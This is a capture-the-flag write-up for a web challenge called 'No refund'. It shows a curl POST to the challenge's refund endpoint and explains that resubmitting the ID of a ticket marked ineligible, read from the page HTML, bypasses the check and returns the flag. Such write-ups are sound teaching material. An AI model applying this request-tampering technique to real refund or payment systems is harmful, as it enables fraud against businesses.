

# No refund

> You had a train service cancelled and you are entitled to a full refund. However the train companies website is not allowing you to. Can you still get it?



Submitting refund for the two allowed tickets makes a POST request:

```shell
curl 'https://no-refund-web.2024-bq.ctfcompetition.com/refund' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'cache-control: max-age=0' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'origin: https://no-refund-web.2024-bq.ctfcompetition.com' \
  -H 'priority: u=0, i' \
  -H 'referer: https://no-refund-web.2024-bq.ctfcompetition.com/' \
  -H 'sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' \
  --data-raw 'reason=delay&ticket_id=2355e4cf000965ac1fe9f0bc2624203e'
```

Both of them result in:

```text
Our records show that the selected train service did not have any significant delay and was not canceled.
If you think this is incorrect please reach out to our customer service team.
```

Inspecting the `index.html`, we get the ticket_id of the disallowed refund:

```html
<div class="ticket-container">
    <div class="ticket" id="85cc3c46f7657a8a962d3b2b299d9be8">
      <p><strong>From:</strong> Flag City</p>
      <p><strong>To:</strong> Sunshine City</p>
      <p><strong>Date:</strong> 2025-08-28</p>
      <p><strong>Time:</strong> 10:30 AM</p>
    </div>
    
    <div class="norefund">
      <h4>Not eligable for refund.</h4>
    </div>
    
</div>
```

Making the above POST request with this ticket_id gives us the flag:

```text
Your ticket will be refundend within 3-5 business days, confirmation code: CTF{xxxxx}
```
